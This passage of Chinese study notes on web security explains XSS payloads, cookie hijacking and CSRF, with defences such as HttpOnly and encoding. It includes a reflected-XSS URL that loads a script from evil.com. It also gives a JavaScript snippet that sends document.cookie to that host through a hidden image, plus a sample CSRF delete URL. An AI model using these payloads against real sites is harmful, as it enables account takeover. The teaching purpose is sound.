 ### 3.2.1 初探 XSS Payload

XSS攻击成功后，攻击者能够对用户当前浏览的页面植入恶意脚本，通过恶意脚本，控制用户的
浏览器。这些用以完成各种具体功能的恶意脚本，被称为“XSS Payload”。      

XSS Payload实际上就是JavaScript脚本（还可以是Flash或其他富客户端的脚本），所以任何
JavaScript脚本能实现的功能，XSS Payload都能做到。    

一个最常见的XSS  Payload，就是通过读取浏览器的Cookie对象，从而发起“Cookie劫持”攻击。   

Cookie中一般加密保存了当前用户的登录凭证。Cookie如果丢失，往往意味着用户的登录凭证丢失。
换句话说，攻击者可以不通过密码，而直接登录进用户的账户。    

如下所示，攻击者先加载一个远程脚本:   

```
http://www.a.com/test.html?abc=<script src="http://www.evil.com/evil.js"></script>
```   

真正的XSS Payload写在这个远程脚本中，避免直接在URL的参数里写入大量的JavaScript代码。   

在evil.js中，可以通过如下代码窃取Cookie:   

```js
var img = document.createElement("img");
img.src = "http://www.evil.com/log?" + escape(document.cookie);
document.body.appendChild(img)
```   

这段代码在页面中插入了一张看不见的图片，同时把document.cookie对象作为参数发送到远程服务器。   

等等，能这样做的前提是页面中会将 a 参数的内容显示在页面中，否则脚本是不会执行的。   

Cookie的“HttpOnly”标识可以防止“Cookie劫持”。    

### 3.2.2 强大的 XSS Payload

攻击者除了可以实施“Cookie劫持”外，还能够通过模拟GET、POST请求操作用户的浏览器。   

## 3.3 XSS 的防御

1. HttpOnly
2. 编码特殊字符    

# 第 4 章 跨站点请求伪造（CSRF)

Cross Site Request Forgery。    

## 4.1 CSRF 简介

还记得在“跨站脚本攻击”一章中，介绍XSSPayload时的那个“删除搜狐博客”的例子吗？登录Sohu
博客后，只需要请求这个URL，就能够把编号为“156713012”的博客文章删除：   

```
http://blog.sohu.com/manage/entry.do?m=delete&id=156713012
```   
